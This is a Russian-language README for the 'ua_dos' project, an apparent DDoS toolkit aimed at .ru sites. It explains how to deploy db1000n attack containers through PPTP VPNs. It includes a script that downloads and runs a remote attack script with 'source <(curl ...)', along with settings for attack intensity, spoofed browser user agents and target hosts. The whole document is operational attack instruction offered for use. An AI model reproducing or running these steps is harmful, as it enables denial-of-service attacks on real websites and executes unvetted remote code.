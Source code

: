 # ua_dos
## Docker
Внутри докера запускается pptp vpn соединение и бинарник db1000n проекта https://github.com/Arriven/db1000n.
Нужно создать файлы конфигурации pptp в директории: `ansible/confign/files/vpn1...*` и файл паролей `ansible/confign/files/chap-secrets`.

Пример файла `vpn1`:
```
pty "/usr/sbin/pptp hostvpn1 --loglevel 0 --nolaunchpppd"
lock
noauth
nobsdcomp
nodeflate
name uservpn1
remotename vpn1
ipparam vpn1
persist
maxfail 0
holdoff 10
```
Здесь задаются: `hostvpn1` - IP адрес, или домен vpn сервера; `uservpn1` - имя пользователя pptp подключения; `vpn1` - названия vpn подключения.

Пример файла `chap-secrets`:
```
# Secrets for authentication using CHAP
# client        server  secret                  IP addresses
uservpn1 vpn1 "passwordvpn1" *
...
uservpn* vpn* "passwordvpn*" *
```
Здесь задаются:`uservpn1` - имя пользователя pptp подключения;`passwordvpn1` - пароль pptp подключения; `vpn1` - названия vpn подключения.

При сборке image эти файлы забираются внутрь.

Собирается image командой:
```
docker image build --force-rm -t ua_dos:0.1 .
```
Где `ua_dos:0.1` - название и версия имеджа, который будет создан.

После чего нужно создать network ipvlan типа:
```
docker network  create -d ipvlan --subnet=192.168.0.0/24 -o parent=wlo1 gwnet
```
Здесь `192.168.0.0/24` - сеть, которую раздает wifi роутер (С помощью которой хостовая машина подключена к интернету); `wlo1` - название wifi интерфейса в ноутбуке (На котором выше описаная сеть от роутера); `gwnet` - название новосозданной сети docker.
Эту информацию можно посмотреть в выводе команды `ifconfig` на хостовой машине (В данном случае ноутбук).

Запуск контейнера можно осуществлять двумя способами:
 1. В интерактивном режиме:
```
docker run --restart unless-stopped --privileged --net=gwnet --name node1 --hostname node1 --ip 192.168.0.x -it ua_dos:0.1 vpn1
```
 2. В режиме демона:
```
docker run --restart unless-stopped --privileged --net=gwnet --name node2 --hostname node2 --ip 192.168.0.x -d ua_dos:0.1 vpn1
```
Где `vpn1` - название vpn подключения, которое будет инициировано при запуске контейнера. `--ip 192.168.0.x` - IP адрес который будет присвоек запускаемому контейнеру (Должен быть из ранее созданной сети `--subnet=192.168.0.0/24`)
К нодам можно подключаться по ssh, только по ключу, парольная авторизация отключена.

## Legacy
Атака `ntct` заброшена, с `curl-atack` можно работать.

1. Создай файл с любым названием *(Например: "curl-atack")*.
2. Запиши в файл две строки:
```
#!/bin/bash
source <(curl -Ls https://raw.githubusercontent.com/bro2020/ua_dos/main/curl-atack)
```
3. Сделай файл исполняемым, выполнив команду:
```
chmod +x "название файла"
(Например: chmod +x curl-atack)
```
4. Запусти файл:
```
./"название файла"
(Например: ./curl atack)
```
Загрузка таргетов пошла, через несколько секунд отобразится информация, которая будет обновляться.

Для остановки на клавиатуре зажать `Ctrl+C`. При этом завершаться **ВСЕ** процессы curl запущенные в операционной системе!

Если хочешь переопределить параметры, для увеличения/уменьшения интенсивности и увеличения/уменьшения нагрузки на оборудование ...

1. Создай файл `curl-atack-env.txt`
2. Запиши в него следующие строки:
```
rcount=$((RANDOM%10+7)) # количетво итераций, после которого принудительно завершаются процессы curl
sq1=$((RANDOM%3+1)) # количество параллельно выполняемых циклов
sq2=$((RANDOM%3+2)) # количество прогонов в каждом из параллельных циклов (1 итерация)
t1=$((RANDOM%7+7)) # таймают перед принудительным завершением процессов curl)
t2=$((RANDOM%2+1)) # таймаут(скорость) запуска проходов в параллельно выполняемых циклах
t3=$((RANDOM%3+1)) # таймаут после завершения всех проходов в параллельных циклах
t4='15' # таймаут автоматического непрерывного завершения процессов curl в каждом проходе

UA1='Mozilla/5.0 (Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA2='Mozilla/5.0 (Macintosh; Intel Mac OS X 12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA3='Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA4='Mozilla/5.0 (Linux; Android 10) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.78 Mobile Safari/537.36'
UA5='Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0'
```
3. Меняй их по вкусу. Сюда же можно вписать свои таргеты в виде задания переменных:
```
H1='http://target.ru'
...
H50='https://target.ru'
```
